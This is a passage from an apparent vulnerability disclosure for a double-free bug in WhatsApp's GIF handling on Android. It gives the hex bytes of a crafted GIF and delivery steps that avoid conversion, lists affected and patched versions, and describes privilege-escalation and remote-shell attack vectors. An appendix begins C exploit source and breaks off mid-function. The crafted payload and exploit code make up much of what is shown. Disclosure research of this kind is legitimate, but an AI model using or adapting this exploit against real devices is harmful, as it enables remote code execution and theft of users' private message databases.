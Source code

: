 ```
00 00 1C 0F 00 00 00 00 2C 00 00 00 00 1C 0F 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 2C 00 00 00 00
18 00 0A 00 0F 00 01 00 00 3B
```
Then copy the content into a GIF file and send it as Document with WhatsApp to another WhatsApp user. Take note that it must not be sent as a Media file, otherwise WhatsApp tries to convert it into an MP4 before sending.
Upon the user receives the malicous GIF file, nothing will happen until the user open WhatsApp Gallery to send a media file to his/her friend.

## Affected versions
The exploit works well until WhatsApp version 2.19.230. The vulnerability is official patched in WhatsApp version 2.19.244

The exploit works well for Android 8.1 and 9.0, but does not work for Android 8.0 and below. In the older Android versions, double-free could still be triggered. However, because of the malloc calls by the system after the double-free, the app just crashes before reaching to the point that we could control the PC register.

## Attack vectors
With the above exploitation, we can have two attack vectors:

1. Local privilege escaltion (from a user app to WhatsApp): A malicious app is installed on the Android device. The app collects addresses of zygote libraries and generates a malicious GIF file that results in code execution in WhatsApp context. This allows the malware app to steal files in WhatsApp sandbox including message database.
2. Remote code execution: Pairing with an application that has an remote memory information disclosure vulnerability (e.g. browser), the attacker can collect the addresses of zygote libraries and craft a malicious GIF file to send it to the user via WhatsApp (must be as an attachment, not as an image through Gallery Picker). As soon as the user opens the Gallery view in WhatsApp (who never sends media files to friends, right?), the GIF file will trigger a remote shell in WhatsApp context.

## Appendix

exploit.c
```c
#include "gif_lib.h"

#define ONE_BYTE_HEX_STRING_SIZE   3
static inline void
get_hex(char *buf, int buf_len, char* hex_, int hex_len, int num_col) {
    int i;
    unsigned int byte_no = 0;
    if (buf_len <= 0) {
        if (hex_len > 0) {
            hex_[0] = '\0';
        }
        return;
    }
    if(hex_len < ONE_BYTE_HEX_STRING_SIZE + 1)
        return;
    do {
        for (i = 0; ((i < num_col) && (buf_len > 0) && (hex_len > 0)); ++i ) {
            snprintf(hex_, hex_len, "%02X ", buf[byte_no++] & 0xff);
            hex_ += ONE_BYTE_HEX_STRING_SIZE;
            hex_len -=ONE_BYTE_HEX_STRING_SIZE;
            buf_len--;
        }
        if (buf_len > 1) {
            snprintf(hex_, hex_len, "\n");
            hex_ += 1;
        }
```